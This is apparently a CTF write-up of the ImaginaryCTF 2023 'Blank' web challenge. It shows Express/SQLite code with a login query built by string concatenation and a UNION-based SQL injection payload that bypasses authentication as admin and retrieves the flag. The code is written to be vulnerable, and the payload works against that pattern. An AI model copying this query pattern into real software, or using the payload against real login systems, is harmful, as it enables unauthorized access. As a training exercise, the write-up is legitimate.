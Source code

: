 ```yaml
---
title: ImaginaryCTF 2023 - Blank
description: Writeup for Blank web challenge
date: 2023-12-18
tldr: I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...
draft: false
tags: ["ctf", "writeup", "web"]
---
```


# blank

I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

Attachments
https://imaginaryctf.org/r/FVauo#blank_dist.zip http://blank.chal.imaginaryctf.org


## The main js code

```javascript
const express = require('express');
const session = require('express-session');
const sqlite3 = require('sqlite3').verbose();
const bodyParser = require('body-parser');
const crypto = require('crypto');
var fs = require("fs");
const path = require('path');

const app = express();
const port = 5000;

const db = new sqlite3.Database(':memory:');

db.serialize(() => {
  db.run('CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT)');
});

app.use(session({
  secret: crypto.randomBytes(16).toString('base64'),
  resave: false,
  saveUninitialized: true
}));

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');
app.use(express.static('static'))
app.use(bodyParser.urlencoded({ extended: true }));

app.get('/', (req, res) => {
  const loggedIn = req.session.loggedIn;
  const username = req.session.username;

  res.render('index', { loggedIn, username });
});

app.get('/login', (req, res) => {
  res.render('login');
});

app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});

app.get('/logout', (req, res) => {
  req.session.destroy();
  res.send('Logout successful!');
});

app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});

app.listen(port, () => {
  console.log(`App listening at http://localhost:${port}`);
});

```

## flag location

looking at `Dockerfile` we see the flag is located in `/app/flag.txt`

## data for login endpoint POST

`username=admin&password=hello`

# sql injection?

The provided code is vulnerable to SQL injection due to the way it constructs the SQL query string using string concatenation with the username and password variables. An attacker can potentially manipulate the password variable to inject malicious SQL code, leading to unauthorized access and bypassing the password authentication.

## the db is blank but do we care?

However the db is completely blank there is no data in it.

However the login does not really care about the user existing in the db, it just cares about the query returning at least **some** data

```sql
CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password TEXT);

select * from users where username="admin" and password = "hovno" union select 1+1,1+1,1+1;--"
```


this allows as to login as any user including the `admin` user neede to access the /flag endpoint

we login with 

```
admin
" union select 1+1,1+1,1+1;--"
```

and proceed to get the flag at http://blank.chal.imaginaryctf.org/flag

```
Welcome admin. The flag is ictf{sqli_too_powerful_9b36140a}
```
